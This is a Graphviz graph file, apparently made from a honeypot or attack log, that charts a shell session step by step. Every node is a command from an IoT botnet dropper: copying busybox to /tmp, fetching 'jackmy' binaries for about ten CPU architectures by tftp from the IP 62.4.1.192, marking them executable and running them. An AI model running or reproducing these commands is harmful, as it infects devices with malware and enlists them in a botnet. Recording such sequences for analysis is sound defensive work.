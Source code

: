 digraph {
1 [label=" ulimit -n 1024"];
5 [label=" cp /bin/busybox /tmp/"];
10 [label=" cd /tmp"];
14 [label=" tftp -r jackmymips -g 62.4.1.192"];
21 [label=" cat jackmymips "];
27 [label=" chmod +x *"];
32 [label=" ./badbox"];
35 [label=" cd /tmp"];
39 [label=" tftp -r jackmymipsel -g 62.4.1.192"];
46 [label=" cat jackmymipsel "];
52 [label=" chmod +x *"];
57 [label=" ./badbox"];
60 [label=" cd /tmp"];
64 [label=" tftp -r jackmysh4 -g 62.4.1.192"];
71 [label=" cat jackmysh4 "];
77 [label=" chmod +x *"];
82 [label=" ./badbox"];
85 [label=" cd /tmp"];
89 [label=" tftp -r jackmyx86 -g 62.4.1.192"];
96 [label=" cat jackmyx86 "];
102 [label=" chmod +x *"];
107 [label=" ./badbox"];
110 [label=" cd /tmp"];
114 [label=" tftp -r jackmyi686 -g 62.4.1.192"];
121 [label=" cat jackmyi686 "];
127 [label=" chmod +x *"];
132 [label=" ./badbox"];
135 [label=" cd /tmp"];
139 [label=" tftp -r jackmypowerpc -g 62.4.1.192"];
146 [label=" cat jackmypowerpc "];
152 [label=" chmod +x *"];
157 [label=" ./badbox"];
160 [label=" cd /tmp"];
164 [label=" tftp -r jackmyi586 -g 62.4.1.192"];
171 [label=" cat jackmyi586 "];
177 [label=" chmod +x *"];
182 [label=" ./badbox"];
185 [label=" cd /tmp"];
189 [label=" tftp -r jackmym86k -g 62.4.1.192"];
196 [label=" cat jackmym86k "];
202 [label=" chmod +x *"];
207 [label=" ./badbox"];
210 [label=" cd /tmp"];
214 [label=" tftp -r jackmyarmv4 -g 62.4.1.192"];
221 [label=" cat jackmyarmv4 "];
227 [label=" chmod +x *"];
232 [label=" ./badbox"];
235 [label=" cd /tmp"];
239 [label=" tftp -r jackmyarmv5 -g 62.4.1.192"];
246 [label=" cat jackmyarmv5 "];
252 [label=" chmod +x *"];
257 [label=" ./badbox"];
1 -> 5;
5 -> 10;
10 -> 14;
14 -> 21;
21 -> 27;
27 -> 32;
32 -> 35;
35 -> 39;
39 -> 46;
46 -> 52;
52 -> 57;
57 -> 60;
60 -> 64;
64 -> 71;
71 -> 77;
77 -> 82;
82 -> 85;
85 -> 89;
89 -> 96;
96 -> 102;
102 -> 107;
107 -> 110;
110 -> 114;
114 -> 121;
121 -> 127;
127 -> 132;
132 -> 135;
135 -> 139;
139 -> 146;
146 -> 152;
152 -> 157;
157 -> 160;
160 -> 164;
164 -> 171;
171 -> 177;
177 -> 182;
182 -> 185;
185 -> 189;
189 -> 196;
196 -> 202;
202 -> 207;
207 -> 210;
210 -> 214;
214 -> 221;
221 -> 227;
227 -> 232;
232 -> 235;
235 -> 239;
239 -> 246;
246 -> 252;
252 -> 257;
}
